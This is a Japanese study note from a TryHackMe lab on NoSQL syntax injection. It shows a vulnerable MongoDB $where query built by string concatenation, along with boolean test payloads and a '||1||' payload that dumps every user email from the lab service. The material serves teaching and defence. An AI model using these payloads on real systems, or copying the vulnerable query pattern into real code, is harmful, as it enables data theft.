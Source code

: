 ```sh
Connection to 10.10.102.74 closed.
```

エラー メッセージの次の行は、構文インジェクションがあることを示している
- username 変数がクエリ文字列に直接連結され、find コマンド内で JavaScript 関数が実行されていることがわかる
`for x in mycol.find({"$where": "this.username == '" + username + "'"}):`

- 詳細なエラーメッセージがなくても、以下の例に示すように、偽と真の両方の条件を指定して出力が異なることを確認することで、構文インジェクションをテストできる
```sh
ssh syntax@10.10.102.74
syntax@10.10.102.74's password: 
Please provide the username to receive their email:admin' && 0 && 'x
Connection to 10.10.102.74 closed.

ssh syntax@10.10.102.74
syntax@10.10.102.74's password: 
Please provide the username to receive their email:admin' && 1 && 'x
admin@nosql.int
Connection to 10.10.102.74 closed.
```

## 悪用
- 構文インジェクションを確認できたので、利用してすべてのメールアドレスをダンプできる
- そのためには、条件のテスト文が常にtrueと評価されるようにする必要がある
- JavaScriptにインジェクションするため、`'||1||'`ペイロードとして使用できる
```sh
ssh syntax@10.10.102.74
syntax@10.10.102.74's password: 
Please provide the username to receive their email:admin'||1||'
admin@nosql.int
pcollins@nosql.int
jsmith@nosql.int
[...]
Connection to 10.10.102.74 closed.
```


## 例外
- 構文インジェクションが発生するには、開発者がカスタムJavaScriptクエリを作成する必要があることに注意する
- 組み込みのフィルター関数を使用して同じ関数を実行すると、`['username' : username]`同じ結果が返されますが、インジェクションの脆弱性はない

# 参考
 コースURL : https://tryhackme.com/room/nosqlinjectiontutorial
